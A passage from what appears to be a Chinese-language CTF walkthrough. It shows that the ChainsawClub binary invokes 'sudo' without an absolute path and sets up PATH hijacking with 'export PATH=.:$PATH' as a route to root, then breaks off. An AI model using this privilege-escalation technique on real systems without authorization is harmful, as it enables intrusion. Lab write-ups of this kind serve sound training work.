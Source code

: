 我也在链锯俱乐部二进制上运行字符串:

![](img/d28b5e93fe8e5dc9c20a62b4f8dca7c8.png)

输出中有一行有趣的内容。

```
**sudo** -i -u root /root/ChainsawClub/dist/ChainsawClub/ChainsawClub
```

这是不合适的，因为我可以创建一个名为“sudo”的文件，将它添加到 PATH 变量中，这样当我运行 ChainsawClub 二进制文件并调用 sudo 时，它将查找任何名为 sudo 的二进制文件，从变量 PATH 的左到右排列优先级。使用 env 检查路径:

```
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

我首先将工作目录包含到路径中:

```
export PATH=.:$PATH
```

通过 env 命令检查修改后的路径:

```
PATH=.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

请注意，路径前面带有“.”
